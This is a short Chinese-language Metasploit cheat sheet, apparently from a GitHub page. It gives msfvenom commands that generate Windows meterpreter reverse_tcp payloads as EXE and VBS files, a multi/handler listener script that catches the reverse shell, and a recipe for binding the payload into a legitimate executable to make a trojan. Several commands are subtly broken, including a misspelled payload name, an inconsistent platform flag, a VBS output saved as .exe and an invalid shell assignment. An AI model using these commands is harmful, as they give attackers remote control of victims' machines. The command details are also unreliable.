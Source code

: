 msfvenom -l platforms查看可输出平台模式

```
msfvenom -p windows/meterperter/reverse_tcp -f exe -a x86 --platforms windows -o ../../test.exe LHOST=192.ip.ip.ip LPORT=4444
```

meterpreter help查看可使用命令


#### 生成VBS

```
msfvenom -p windows/meterperter/reverse_tcp -f vbs -a x86 --platform windows -o ../../test.exe LHOST=192.ip.ip.ip LPORT=4444
```

#### 写文件

写shell，以x86为例

```shell
ip=192.168.113.113
port=4444
arch=x86
platform=windows
format=vbs
payload=windows/meterpreter/reverse_tcp

out = ~/exploit/meter_rev_tcp_x86.vbs
msfvenom -p $payload LHOST=$ip LPORT=$port -f $format -a $arch --platform $platform -o $out
```

#### 读文件

读rc

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST ip.ip.ip.ip
set LPORT 4444
run
```

msfconsole -r file

### 木马捆绑

-x 捆绑exe

```
ip=192.168.113.113
port=4444
arch=x86
platform=windows
format=exe
payload=windows/meterpreter/reverse_tcp
x=/home/kali/test/test.exe

out = ~/exploit/meter_rev_tcp_x86.exe
msfvenom -p $payload LHOST=$ip LPORT=$port -f $format -a $arch --platform $platform -o $out -x $x
```
